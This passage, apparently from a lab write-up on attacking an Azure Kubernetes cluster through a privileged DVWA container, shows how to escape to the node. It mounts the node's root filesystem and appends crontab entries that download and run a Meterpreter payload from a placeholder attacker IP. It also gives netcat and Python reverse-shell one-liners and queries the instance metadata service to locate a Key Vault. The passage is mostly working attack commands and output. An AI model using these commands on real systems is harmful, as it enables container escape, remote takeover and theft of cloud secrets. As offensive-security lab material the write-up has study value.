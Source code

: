 ### 3. Cronjob

As mentioned previously, we have a privileged container (Running in --privileged mode) in our case which is the DVWA. Since we already have root access on this pod, we can simply mount the Node filesystem and create a cronjob which triggers and gives us a reverse shell.

First, we need to check the filesystem and mount the root filesystem of the node on the mount point:

```bash
ls -la /dev/
```

and then we can mount as follow:

```bash
mount /dev/sb1 /mnt/
echo "*/1 * * * * root curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /root/met && chmod 777 /root/met && /root/met" >> /mnt/etc/crontab
```

and at the same time we should listen to the port 4243 which is through ./msfconsole2 script as has been shown previously.

It does not necessarily need to download the met-host from the Ruby webserver, as we can use other options as well for triggering the reverse shell such as:

```bash
echo "*/1 * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_vm_public_ip> 4243" >  /mnt/etc/crontab
echo "*/1 * * * * root python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_vm_public_ip>",4243)) >  /mnt/etc/crontab
...
```

After getting the reverse shell on our host, we can check if we are on worker node:

```bash
#id
uid=0(root) gid=0(root) groups=0(root)
#hostname
aks-default-38723430-vmss000000
```

### Get keys from keyvault

Get the instance metadata

```bash
curl -s -H Metadata:true --noproxy "*" 'http://169.254.169.254/metadata/instance?api-version=2021-02-01'
```

Extract the keyvault name

```text
{ "name": "keyvault", "value": "keyvaultLunalectric-akic" }
```
